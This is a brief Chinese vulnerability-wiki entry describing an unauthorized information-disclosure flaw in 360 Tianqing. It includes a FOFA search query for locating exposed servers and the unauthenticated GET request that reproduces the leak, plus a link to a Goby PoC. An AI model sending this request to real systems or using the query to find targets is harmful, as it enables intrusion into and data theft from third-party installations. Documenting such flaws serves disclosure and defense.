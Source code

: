 # 天擎 数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
>
> title="360新天擎"

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```

![](http://wikioss.peiqi.tech/vuln/tq-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

![](http://wikioss.peiqi.tech/vuln/tq-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)